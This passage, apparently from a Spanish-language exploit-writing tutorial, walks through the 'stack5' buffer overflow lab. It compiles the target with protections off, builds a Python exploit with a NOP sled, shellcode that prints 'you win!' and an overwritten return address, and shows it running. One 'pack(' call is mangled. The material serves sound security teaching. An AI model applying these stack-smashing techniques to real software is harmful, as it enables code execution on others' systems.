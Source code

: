     ```
    user@abos:~$ gcc -m32 -no-pie -fno-stack-protector -ggdb 
    -mpreferred-stack-boundary=2 -z execstack -o stack5 stack5.c
       
    user@abos:~$ ./stack5
    buf: bffff5b4 cookie: bffff604
    ```
* Planificamos el overflow por entrada estándar, considerando el formato little endian:

![](<../../.gitbook/assets/imagen (105).png>)

*   Armamos un archivo en Python para ingresar el input

    ```
       
    #! /usr/bin/env python
    """Uso: ./exploit.py | ./stack5 """
       
    import sys
    from struct import pack
       
    #shellcode, imprime you win!
    shellcode  = "\xeb\x16\x31\xc0\x59\x88\x41\x08\xb0\x04\x31\xdb\x43"
    shellcode += "\x31\xd2\xb2\x09\xcd\x80\xb0\x01\x4b\xcd\x80\xe8\xe5"
    shellcode += "\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21\x41" 
                   
    ret_addr = 0xbffff5b4                           #addr de buf
       
    exploit  = "\x90" * 20                          #nops iniciales buf
    exploit += shellcode                            #shellcode
    exploit += "A" * (80-20-len(shellcode))         #padding hasta fin de buf
    exploit += "BBBB"                               #lleno cookie
    exploit += "CCCC"                               #lleno ebp
    exploit += pack(", ret_addr)                 #defino return address
       
    sys.stdout.write(exploit)    
    ```
*   Ejecutamos el exploit

    ```
    user@abos:~$ ./exploit.py | ./stack5
    buf: bffff5b4 cookie: bffff604
    you win!
    ```

    Gráficamente logramos el siguiente resultado:

![](<../../.gitbook/assets/imagen (106).png>)
